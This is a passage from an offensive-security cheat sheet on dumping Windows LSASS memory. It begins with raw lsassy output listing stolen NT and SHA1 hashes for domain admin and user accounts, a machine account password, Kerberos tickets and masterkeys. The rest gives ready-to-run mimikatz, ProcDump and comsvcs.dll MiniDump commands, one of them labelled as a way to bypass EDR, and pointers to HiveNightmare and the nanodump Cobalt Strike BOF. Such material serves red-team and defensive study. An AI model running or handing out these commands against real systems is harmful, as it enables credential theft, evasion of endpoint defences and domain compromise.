					[+] 10.0.0.60 Lsass dumped in C:\Windows\Temp\OwGcbY.fnt (55581140 Bytes)
					SUCCESS:root:Lsass dump deleted
					[+] 10.0.0.60 Lsass dump deleted
					SUCCESS:root:MICROSOFTDELIVE\domain_admin        [NT] e19ccf75ee54e06b06a5907af13cef42 | [SHA1] 9131834cf4378828626b1beccaa5dea2c46f9b63
					[+] 10.0.0.60 MICROSOFTDELIVE\domain_admin        [NT] e19ccf75ee54e06b06a5907af13cef42 | [SHA1] 9131834cf4378828626b1beccaa5dea2c46f9b63
					SUCCESS:root:MICROSOFTDELIVE\WIN11$              [NT] a0a3b45f929e097b3454477231a43e28 | [SHA1] 56b9281e7e24256f026ddee862d2d841695413e7
					[+] 10.0.0.60 MICROSOFTDELIVE\WIN11$              [NT] a0a3b45f929e097b3454477231a43e28 | [SHA1] 56b9281e7e24256f026ddee862d2d841695413e7
					SUCCESS:root:domain.com\WIN11$        [PWD] [0Ix-4M0R*6QSOG;A`@bYjFVeH7&'vQn*ZRpHMeJd=S1+'/5qL)H;vH)DXSzp_8[?_q']zxDX5m;\+[Q^<h5`W^kg#<zQT^gYa_dHPP\OaW$ThgSG`=UT*>K
					[+] 10.0.0.60 domain.com\WIN11$        [PWD] [0Ix-4M0R*6QSOG;A`@bYjFVeH7&'vQn*ZRpHMeJd=S1+'/5qL)H;vH)DXSzp_8[?_q']zxDX5m;\+[Q^<h5`W^kg#<zQT^gYa_dHPP\OaW$ThgSG`=UT*>K
					SUCCESS:root:MICROSOFTDELIVE\domain_user         [NT] e19ccf75ee54e06b06a5907af13cef42 | [SHA1] 9131834cf4378828626b1beccaa5dea2c46f9b63
					[+] 10.0.0.60 MICROSOFTDELIVE\domain_user         [NT] e19ccf75ee54e06b06a5907af13cef42 | [SHA1] 9131834cf4378828626b1beccaa5dea2c46f9b63
					SUCCESS:root:DOMAIN.COM\domain_admin  [TGT] Domain: DOMAIN.COM - End time: 2022-08-04 01:14 (TGT_DOMAIN.COM_domain_admin_krbtgt_DOMAIN.COM_53b91a0b.kirbi)
					[+] 10.0.0.60 DOMAIN.COM\domain_admin  [TGT] Domain: DOMAIN.COM - End time: 2022-08-04 01:14 (TGT_DOMAIN.COM_domain_admin_krbtgt_DOMAIN.COM_53b91a0b.kirbi)
					SUCCESS:root:DOMAIN.COM\domain_admin  [TGT] Domain: DOMAIN.COM - End time: 2022-08-04 01:14 (TGT_DOMAIN.COM_domain_admin_krbtgt_DOMAIN.COM_375a9e7f.kirbi)
					[+] 10.0.0.60 DOMAIN.COM\domain_admin  [TGT] Domain: DOMAIN.COM - End time: 2022-08-04 01:14 (TGT_DOMAIN.COM_domain_admin_krbtgt_DOMAIN.COM_375a9e7f.kirbi)
					SUCCESS:root:DOMAIN.COM\domain_admin  [TGT] Domain: DOMAIN.COM - End time: 2022-08-04 01:13 (TGT_DOMAIN.COM_domain_admin_krbtgt_DOMAIN.COM_6e2f1491.kirbi)
					[+] 10.0.0.60 DOMAIN.COM\domain_admin  [TGT] Domain: DOMAIN.COM - End time: 2022-08-04 01:13 (TGT_DOMAIN.COM_domain_admin_krbtgt_DOMAIN.COM_6e2f1491.kirbi)
					SUCCESS:root:DOMAIN.COM\domain_user   [TGT] Domain: DOMAIN.COM - End time: 2022-08-04 01:07 (TGT_DOMAIN.COM_domain_user_krbtgt_DOMAIN.COM_a88b0199.kirbi)
					[+] 10.0.0.60 DOMAIN.COM\domain_user   [TGT] Domain: DOMAIN.COM - End time: 2022-08-04 01:07 (TGT_DOMAIN.COM_domain_user_krbtgt_DOMAIN.COM_a88b0199.kirbi)
					SUCCESS:root:DOMAIN.COM\domain_user   [TGT] Domain: DOMAIN.COM - End time: 2022-08-04 01:07 (TGT_DOMAIN.COM_domain_user_krbtgt_DOMAIN.COM_8b453c42.kirbi)
					[+] 10.0.0.60 DOMAIN.COM\domain_user   [TGT] Domain: DOMAIN.COM - End time: 2022-08-04 01:07 (TGT_DOMAIN.COM_domain_user_krbtgt_DOMAIN.COM_8b453c42.kirbi)
					SUCCESS:root:DOMAIN.COM\WIN11$        [TGT] Domain: DOMAIN.COM - End time: 2022-08-04 01:02 (TGT_DOMAIN.COM_WIN11$_krbtgt_DOMAIN.COM_4e7fda28.kirbi)
					[+] 10.0.0.60 DOMAIN.COM\WIN11$        [TGT] Domain: DOMAIN.COM - End time: 2022-08-04 01:02 (TGT_DOMAIN.COM_WIN11$_krbtgt_DOMAIN.COM_4e7fda28.kirbi)
					SUCCESS:root:DOMAIN.COM\WIN11$        [TGT] Domain: DOMAIN.COM - End time: 2022-08-04 01:02 (TGT_DOMAIN.COM_WIN11$_krbtgt_DOMAIN.COM_824abab7.kirbi)
					[+] 10.0.0.60 DOMAIN.COM\WIN11$        [TGT] Domain: DOMAIN.COM - End time: 2022-08-04 01:02 (TGT_DOMAIN.COM_WIN11$_krbtgt_DOMAIN.COM_824abab7.kirbi)
					SUCCESS:root:DOMAIN.COM\WIN11$        [TGT] Domain: DOMAIN.COM - End time: 2022-08-04 01:01 (TGT_DOMAIN.COM_WIN11$_krbtgt_DOMAIN.COM_035c7523.kirbi)
					[+] 10.0.0.60 DOMAIN.COM\WIN11$        [TGT] Domain: DOMAIN.COM - End time: 2022-08-04 01:01 (TGT_DOMAIN.COM_WIN11$_krbtgt_DOMAIN.COM_035c7523.kirbi)
					SUCCESS:root:Credentials saved to outfile.txt
					[+] 10.0.0.60 Credentials saved to outfile.txt
					SUCCESS:root:25 Kerberos tickets written to /root/lsassy/Kerberos
					[+] 10.0.0.60 25 Kerberos tickets written to /root/lsassy/Kerberos
					SUCCESS:root:8 masterkeys saved to /root/.config/lsassy/masterkeys.txt
					[+] 10.0.0.60 8 masterkeys saved to /root/.config/lsassy/masterkeys.txt

#### From a Windows Machine
##### Local
* <details><summary>mimikatz (Click to expand)</summary><p>

		sekurlsa::minidump lsass.DMP
		log lsass.txt
		sekurlsa::logonPasswords
* <details><summary>Windows Task Manager (GUI) (Click to expand)</summary><p>
	* Process
		1. Open the Task Manager GUI
		1. Select the **Details** tab
		1. Right-click `lsass.exe` and select **Create dump file**
			* The file is sent to the user’s `AppData\Local\Temp` directory
* <details><summary>ProcDump (Click to expand)</summary><p>
	* Examples
		* Example 1: Regular use

				procdump.exe -accepteula -ma lsass.exe out.dmp
		* Example 2: Stealthier, refer to lsass by pid
			1. Identify lsass pid using PowerShell

					tasklist | findstr lsass
			1. Run procdump with the lsass pid

					procdump.exe -accepteula -ma 580 out.dmp
		* Example 3: Use quotes around lsass to bypass EDR
			
				procdump.exe -accepteula -ma “lsass.exe” out.dmp
* <details><summary>comsvcs (Click to expand)</summary><p>

		C:\Windows\System32\rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump [PID] C:\temp\out.dmp full
	* Normally triggers Windows Defender

* <details><summary>HiveNightmare (Click to expand) -<br />[https://github.com/GossiTheDog/HiveNightmare](https://github.com/GossiTheDog/HiveNightmare)</summary><p>

##### Remote



#### From a C2 (e.g., Beacon Object Files)
* <details><summary>nanodump (Click to expand)-<br />[https://github.com/helpsystems/nanodump](https://github.com/helpsystems/nanodump)</summary><p>
	* Beacon Object File (BOF) for CobaltStrike

### Needs Research

* [https://twitter.com/icyguider/status/1462435172419260420](https://twitter.com/icyguider/status/1462435172419260420)